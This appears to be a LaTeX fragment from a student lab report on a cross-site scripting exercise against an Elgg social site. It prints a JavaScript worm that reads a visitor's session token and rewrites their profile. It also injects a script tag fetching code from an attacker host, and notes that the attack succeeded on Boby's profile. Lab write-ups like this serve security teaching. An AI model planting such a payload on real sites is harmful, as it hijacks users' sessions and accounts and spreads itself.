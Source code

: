 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{lstlisting}[caption={POST edit Code Link Approach},label={lst:task10},language=HTML,breaklines=true]
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var name="&name"+userName;
var accesslevel="&accesslevel[description]="+"2";
var propagatescript="&description="+'<script src="http://www.csrflabattacker.com/src.js">';
var content=ts+token+name+guid+propagatescript+accesslevel;
var samyGuid=47;
var sendurl='http://www.xsslabelgg.com/action/profile/edit';
 if(elgg.session.user.guid!=samyGuid)
 {
 var Ajax=null;
 Ajax=new XMLHttpRequest();
 Ajax.open("POST",sendurl,true);
 Ajax.setRequestHeader("Host","www.xsslabelgg.com");
 Ajax.setRequestHeader("Content-Type",
 "application/x-www-form-urlencoded");
 Ajax.send(content);
 }
}
</script>
\end{lstlisting}


\begin{figure}[h]
    \centering
    \hfill
    \hfill
    \caption{Result}\label{fig:task10-2}
\end{figure}

When Boby visiting Samy's profile, Boby's profile will be edited, as shown as Figure \ref{fig:task10.3}, and the result is shown in Figure \ref{fig:task10.5}. The result indicates that the script successfully modified Boby's Profile.
\end{document}
